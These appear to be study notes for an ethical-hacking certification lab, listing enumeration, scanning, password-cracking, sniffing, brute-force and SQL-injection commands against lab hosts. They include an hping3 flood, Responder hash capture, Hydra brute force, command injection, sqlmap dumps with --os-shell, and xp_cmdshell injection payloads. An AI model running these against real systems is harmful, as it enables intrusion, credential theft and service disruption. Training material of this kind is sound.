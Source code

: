 # Sort Note

### >>> Module 02 : Enumeration 

ping www.moviescope.com –f –l 1500 -> Frame size
tracert www.moviescope.com -> Determining hop count


### >> Enumeration using Metasploit :

msfdb init
service postgresql start
msfconsole
msf > db_status
nmap -Pn -sS -A -oX Test 10.10.10.0/24
db_import Test
hosts -> To show all available hosts in the subnet
db_nmap -sS -A 10.10.10.16 -> To extract services of particular machine
services -> to get all available services in a subnet

### >> SMB Version Enumeration using MSF

use scanner/smb/smb_version
set RHOSTS 10.10.10.8-16
set THREADS 100
run
hosts -> now exact os_flavor information has been updated

### >> Module 03 : Scanning Networks

Port Scanning using Hping3:
hping3 --scan 1-3000 -S 10.10.10.10
--scan parameter defines the port range to scan and –S represents SYN flag.

Pinging the target using HPing3:
hping3 -c 3 10.10.10.10
-c 3 means that we only want to send three packets to the target machine.

UDP Packet Crafting
hping3 10.10.10.10 --udp --rand-source --data 500

TCP SYN request
hping3 -S 10.10.10.10 -p 80 -c 5-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

HPing flood
hping3 10.10.10.10 --flood

### >>> Module 04 : Enumeration

>> SNMP Enumeration
nmap –sU –p 161 10.10.10.12
nmap -sU -p 161 --script=snmp-brute 10.10.10.12
msfconsole
use auxiliary/scanner/snmp/snmp_login
set RHOSTS and exploit
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS and exploit


snmp-check <IP address>

### >> NetBIOS Enumeration (139) : 

nbtstat –A 10.10.10.16
net use
net use \10.10.10.16\e ““\user:””
net use \10.10.10.16\e ““/user:””
NetBIOS Enumerator

### >>Enum4Linux Wins Enumeration :

enum4linux -u martin -p apple -U 10.10.10.12 -> Users Enumeration
enum4linux -u martin -p apple -o 10.10.10.12 -> OS Enumeration
enum4linux -u martin -p apple -P 10.10.10.12 -> Password Policy Information
enum4linux -u martin -p apple -G 10.10.10.12 -> Groups Information
enum4linux -u martin -p apple -S 10.10.10.12 -> Share Policy Information (SMB Shares Enumeration)

### >>Active Directory LDAP Enumeration : ADExplorer

### >>Module 05 : Vulnerability Analysis 

nikto -h http://www.goodshopping.com -Tuning 1 
Nessus runs on  https://localhost:8834Username: admin Password: password
Nessus -> Policies > Advanced scan
Discovery > Host Discovery > Turn off Ping the remote host
Port Scanning > check the Verify open TCP ports found by local port enumerators
AdvancedMax number of TCP sessions per host and = unlimitedMax number of TCP sessions per scan = unlimited
Credentials > Windows > Username & Password
Save policy > Create new scan > User Defined
Enter name & Target
Schedule tab > Turn of Enabled
Hit launch from drop-down of save.

### >>>>Module 06 : System Hacking

>>NTLM Hash crack :
responder -I eth0
usr\share\responder\logs --> Responder log location
john /usr/share/responder/logs/ntlm.txt


>>Rainbowtable crack using Winrtgen :

Open winrtgen and add new table
Select ntlm from Hash dropdown list.
Set Min Len as 4, Max Len as 6 and Chain Count 4000000
Select loweralpha from Charset dropdown list (it depends upon Password).
rcrack_gui.exe to crack hash with rainbow table

>>Hash dump with Pwdump7 and crack with ohpcrack :

wmic useraccount get name,sid --> Get user acc names and SID
PwDump7.exe > c:\hashes.txt
Replace boxes in hashes.txt with relevant usernames from step 1.
Ophcrack.exe -> load -> PWDUMP File
Tables -> Vista free -> select the table directory -> crack

### >>Module 08 : Sniffing

http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request 
Capture traffic from remote interface via wireshark
Capture > Options > Manage Interfaces 
Remote Interface > Add > Host &  Port (2002)
Username & password > Start

### >>>Module 13 : Hacking Web Servers

FTP Bruteforce with Hydra
hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11

>>Module 14 : Hacking Web Applications

Wordpress
wpscan --url http://10.10.10.12:8080/CEH --enumerate u

(--api-token <API Token>)

WP password bruteforce
msfconsoleuse auxiliary/scanner/http/wordpress_login_enum

RCE 
ping 127.0.0.1 | hostname | net user

### >>>>Module 15 : SQL Injection

SQLMAP Extract DBS
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
blah' or 1=1 --

Insert data into DB from login
blah';insert into login values ('john','apple123');

Create database from login
blah';create database mydatabase;

Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --

